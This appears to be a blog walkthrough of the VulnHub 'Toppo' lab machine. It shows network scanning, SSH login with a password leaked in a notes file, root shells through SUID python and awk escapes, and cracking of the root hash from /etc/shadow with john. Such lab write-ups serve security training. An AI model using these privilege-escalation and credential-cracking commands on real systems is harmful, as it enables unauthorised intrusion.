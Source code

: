 ```yaml
---
title: "Toppo"
date: 2021-05-05T08:22:12+05:30
draft: false
toc: false
images:
tags:
  - VulnHub
---
```


## Toppo VulnHub Walkthrough

### Recon & Enumeration

- `sudo netdiscover -i eth0 -r 10.0.2.0/24`
- Toppo - `10.0.2.6`
- `sudo rustscan -a 10.0.2.6 -- -sS -A`

  ```
  10.0.2.6:22    => OpenSSH 6.7p1
  10.0.2.6:80    => Apache httpd 2.4.10
  10.0.2.6:111   => rpcbind
  10.0.2.6:39086 => RPC
  ```

- `nikto -h 10.0.2.6`

```
+ Apache/2.4.10 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 1925, size: 563f5cf714e80, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-3268: /admin/: Directory indexing found.
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3268: /mail/: Directory indexing found.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3092: /manual/: Web server manual found.
+ OSVDB-3268: /manual/images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /package.json: Node.js package file found. It may contain sensitive information.
```

- `gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.0.2.6 -t 70 -x txt,php`

```
/mail          (Status: 301) [Size: 303] [http://10.0.2.6/mail/]
/admin         (Status: 301) [Size: 304] [http://10.0.2.6/admin/]
/css           (Status: 301) [Size: 302] [http://10.0.2.6/css/]
/manual        (Status: 301) [Size: 305] [http://10.0.2.6/manual/]
/js            (Status: 301) [Size: 301] [http://10.0.2.6/js/]
/img           (Status: 301) [Size: 302] [http://10.0.2.6/img/]
/vendor        (Status: 301) [Size: 305] [http://10.0.2.6/vendor/]
/LICENSE       (Status: 200) [Size: 1093]
/server-status (Status: 403) [Size: 296]
```

- `http://10.0.2.6/admin/notes.txt`

```
Note to myself :
I need to change my password :/ 12345ted123 is too outdated but the technology isn't my thing i prefer go fishing or watching soccer.
```

- The password used also has `ted` in it which could be username.
- `ssh ted@10.0.2.6` => yes => `12345ted123` and we are logged in as `ted`!
- `whoami` => `ted`

### Privilege Escalation

- `find / -perm -4000 2>/dev/null`

```
/sbin/mount.nfs
/usr/sbin/exim4
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/python2.7
/usr/bin/chsh
/usr/bin/at
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/procmail
/usr/bin/passwd
/bin/su
/bin/umount
/bin/mount
```

- `/usr/bin/python2.7` has SUID bit set!
- [GTFOBins](https://gtfobins.github.io/gtfobins/python/)
- `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
- It says: `sh: 0: Illegal option -p` so lets just remove `-p` and run it again.
- `/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh")'`
- And it worked!
- `whoami && id`:

```
root
uid=1000(ted) gid=1000(ted) euid=0(root) groups=1000(ted),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth)
```

- `cd /root && ls -la`
- `cat flag.txt`

```
Congratulations! there is your flag: 0wnedlab{p4ssi0n_c0me_with_pract1ce}
```

### Privilege Escalation

I found another method for privilege escalation when I went through some writeups after rooting this VM.

- `ssh ted@10.0.2.6` => yes => `12345ted123`
- `cat /etc/sudoers` => `ted ALL=(ALL) NOPASSWD: /usr/bin/awk`
- [GTFOBins](https://gtfobins.github.io/gtfobins/awk/)
- `sudo awk 'BEGIN {system("/bin/sh")}'`
- When we run this, we get: `sudo: command not found`. So lets try without `sudo`.
- `awk 'BEGIN {system("/bin/sh")}'`
- And we get root shell.

### Post Exploitation

- `cat /etc/shadow`

  ```
  root:$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0:17636:0:99999:7:::
  ```

- `cat /etc/passwd`
  ```
  root:x:0:0:root:/root:/bin/bash
  ```
- On Kali VM, make a directory `toppo` and then 2 files inside named `passwd` and `shadow` and then paste the `root` user lines from above in them respectively. (`/etc/passwd` in `passwd` and `/etc/shadow` in `shadow`).
- Open terminal and: `unshadow passwd shadow > crack.txt`
- We can also use `hashid` for `root` hash which tells us the hash format is `SHA-512 Crypt [JtR Format: sha512crypt]`:
- `hashid -j '$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0'`
- `john crack.txt` (will use default wordlist but that is enough in this case)
  ```
  test123   (root)
  ```
- Or we can crack just the hash without unshadowing:
- `echo '$6$5UK1sFDk$sf3zXJZ3pwGbvxaQ/1zjaT0iyvw36oltl8DhjTq9Bym0uf2UHdDdRU4KTzCkqqsmdS2cFz.MIgHS/bYsXmBjI0' > crack.txt`
- `john --wordlist /usr/share/john/password.lst --format=sha512crypt crack.txt`
- So the credentials for `root` user are: `root:test123`

